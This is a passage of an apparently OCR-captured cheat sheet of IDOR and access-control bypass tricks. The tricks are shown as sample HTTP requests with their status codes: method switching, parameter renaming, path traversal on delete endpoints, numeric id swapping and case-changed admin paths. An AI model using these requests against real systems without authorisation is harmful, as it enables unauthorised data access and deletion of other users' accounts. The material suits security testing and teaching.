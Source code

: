 ```html
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```

* change HTTP method

```bash
GET /users/delete/victim_id  ->403
POST /users/delete/victim_id ->200
```

* Try replacing parameter names

```bash
Instead of this:
GET /api/albums?album_id=<album id>

Try This:
GET /api/albums?account_id=<account id>

Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.
```

* Path Traversal

```bash
POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200
```

* change request content-type

```bash
Content-Type: application/xml ->
Content-Type: application/json
```

* swap non-numeric with numeric id

```bash
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```

* Missing Function Level Acess Control

```bash
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
GET /aDmin/profile ->200
GET /adMin/profile ->200
GET /admIn/profile ->200
GET /admiN/profile ->200
```

* send wildcard instead of an id
